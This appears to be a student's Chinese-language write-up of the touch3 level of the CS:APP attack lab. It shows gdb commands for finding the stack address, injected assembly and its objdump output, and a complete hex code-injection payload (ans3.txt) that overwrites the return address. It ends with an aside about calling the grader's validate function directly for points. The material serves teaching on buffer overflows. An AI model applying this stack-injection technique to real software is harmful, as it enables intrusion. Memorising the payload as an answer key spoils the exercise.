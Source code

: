 

advice中提到，touch3和hexmatch的调用会污染栈，选择合适位置保存，test的栈顶地址相对较大，选择test的栈顶



查看栈顶

```shell
gdb ctraget
b *0x40196c
r -q
info register rsp
rsp 0x5561dca8 0x5561dca8
```



level3.s

```assembly
mov $0x5561dca8, %rdi
pushq $0x4018fa
retq
```
```shell
gcc -c level3.s
objdump -d level3.o > level3.asm
```

level2.asm

```assembly
0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```



401968:	48 83 ec 08          	sub    $0x8,%rsp

所以跳过八个字节，地址占4个字节，于是再跳过4个字节



##### ans3.txt

```
48 c7 c7 a8 dc 61 55
68 fa 18 40 00
c3
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00
78 dc 61 55
00 00 00 00
35 39 62 39 39 37 66 61 00
```







#### p.s.

想办法调用validate是不是就能直接得分了
